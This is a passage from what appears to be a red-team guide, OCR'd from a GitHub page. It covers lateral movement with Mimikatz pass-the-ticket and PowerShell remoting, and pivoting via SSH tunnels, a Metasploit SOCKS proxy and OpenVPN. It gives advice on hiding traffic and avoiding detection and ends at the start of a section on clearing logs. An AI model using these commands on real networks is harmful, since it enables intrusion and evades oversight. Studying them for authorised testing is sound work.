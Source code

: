     Description: Using Kerberos tickets to authenticate and move laterally within an Active Directory environment.
    Tools: Mimikatz, Rubeus
    Example:

    powershell

    Invoke-Mimikatz -Command '"kerberos::ptt <path_to_ticket>"'

C. Remote Code Execution

    Description: Executing commands on remote systems using tools like PowerShell, WMI, or SSH.
    Tools: PsExec, WMIC, Invoke-Command, SSH
    Example:

    powershell

    Invoke-Command -ComputerName <target> -ScriptBlock { ipconfig /all }

Pivoting Techniques:
A. SSH Tunneling

    Description: Using SSH to create tunnels for accessing internal network services from an external location.
    Example:

    bash

    ssh -L 8080:internal_server:80 user@bastion_host

B. SOCKS Proxy with Metasploit

    Description: Setting up a SOCKS proxy using Metasploit to pivot through a compromised system.
    Example:

    bash

    use auxiliary/server/socks_proxy
    set SRVPORT 1080
    run

C. VPN Pivoting

    Description: Using tools like OpenVPN to create a VPN tunnel through a compromised host to access the internal network.
    Example:

    bash

    openvpn --config compromised_host.ovpn

Recommendations:

    Use Proxychains: Chain multiple proxies to obscure the origin of traffic.
    Monitor Network Traffic: Keep track of all internal communications to avoid detection.
    Automate with Scripts: Write custom scripts to automate lateral movement tasks, reducing manual effort and the likelihood of errors.

8. Covering Tracks

Covering tracks is crucial to prevent detection and ensure the success of a red team engagement. This involves deleting logs, clearing command histories, and removing any evidence of compromise.
Techniques for Covering Tracks:
A. Clearing Logs
